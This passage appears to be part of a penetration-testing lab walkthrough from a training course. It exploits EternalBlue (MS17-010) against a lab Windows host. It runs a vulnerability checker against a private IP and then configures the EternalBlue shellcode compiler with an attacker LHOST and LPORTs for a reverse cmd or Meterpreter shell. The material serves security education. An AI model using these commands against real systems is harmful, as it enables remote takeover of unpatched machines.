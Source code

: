 ```bash
pip install -r requirements.txt
```

<img src="/assets/images/tcm-academy/blue-18.png">

Running the checker, we see that the target is not patched and, therefore, vulnerable, to this exploit.

```bash
python eternal_checker.py 192.168.17.135
```

<img src="/assets/images/tcm-academy/blue-19.png">


Next, I navigated to the shellcode directory to execute the shell prep script and provided the following inputs for the Eternal Blue Windows Shellcode Compiler:


```bash
cd shellcode
sudo ./shell_prep.sh
192.168.17.134  # LHOST for reverse connection
9999             # LPORT for x64
2222             # LPORT for x86
1                # Type 1 for a regular staged cmd shell
0                # Type 0 for a Meterpreter shell
```
